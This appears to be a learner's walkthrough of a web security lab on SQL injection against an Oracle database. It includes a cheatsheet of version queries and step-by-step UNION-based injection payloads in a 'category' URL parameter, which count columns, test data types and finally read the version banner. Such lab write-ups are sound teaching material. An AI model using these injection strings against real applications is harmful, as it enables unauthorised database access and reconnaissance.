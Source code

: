 


## End Goal: To solve the lab, display the database version string. 


## From cheatsheet

## Database version

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

|   |   |
|---|---|
|Oracle|`SELECT banner FROM v$version   SELECT version FROM v$instance   `|
|Microsoft|`SELECT @@version`|
|PostgreSQL|`SELECT version()`|
|MySQL|`SELECT @@version`|


## Burp

GET /filter?category=Pets HTTP/2


## Finding the number of column

`Pets ' union select null , null ,null --`
this gives internal error because in oracle 
SELECT statement must have a FROM clause
Fortunately, Oracle provides you with the DUAL table which is a special table that belongs to the schema of the user SYS but it is accessible to all users.

so,

`Pets ' union select  null ,null from DUAL --`


number of columns found = 2


# finding column with string data type

`Pets ' union select  'a' ,'a' from DUAL --`

both column is of string data type

# Solving the end goal


`Pets ' union select banner , null FROM v$version -- `




